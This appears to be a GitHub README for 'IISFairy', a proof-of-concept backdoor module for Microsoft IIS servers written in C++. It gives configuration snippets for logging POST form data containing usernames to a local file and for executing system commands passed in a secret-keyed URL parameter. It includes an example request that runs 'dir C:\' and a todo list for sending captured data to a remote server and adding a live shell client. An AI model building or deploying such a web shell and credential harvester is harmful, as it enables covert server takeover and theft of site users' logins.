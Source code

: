 # IISFairy
Simple PoC IIS Native module coded in c++, it's able to capture post request to a specific url and exucte commands through url request.

# Settings
Before compiling make sure to set below settings so it suits to your needs.

<b>Logging part :</b>

--> Page to save Post Request for :

PCWSTR getPostRequestfromthisUrl = L"yourmomistheiisfairy.html";

--> Trigger parameter in Post Request to start the log :

LPCSTR lpFound = strstr((LPCSTR)FormData, "username");

--> Local location to save logfile to :

std::wofstream outputFile("C:\\yourmomtheiisfairy.txt", std::ios::out | std::ios::app);

<b>CMD part :</b>

--> Parameter in get url request to activate cmd detection, a.k.a. password :

PCWSTR activateCMDtrigger = L"secretkey=iisfairy";

--> Parameter in get url request to get cmd from :

std::string paramValue = UrlDecode(ExtractQueryParamValue(urlBuffer, "sauce"));

--> Url request example to display C:\ directory :

http://localhost/yourmomistheiisfairy.html?secretkey=iisfairy&sauce=dir%20C:\

# Todo

--> Save captured post data handling ;

Use ping to send capatures post data back, use post url request to save data on remote server, 

--> Code a python client shell to interact as a "liveshell"

--> Tidy all my shit up.

--> Bang the IISFairy






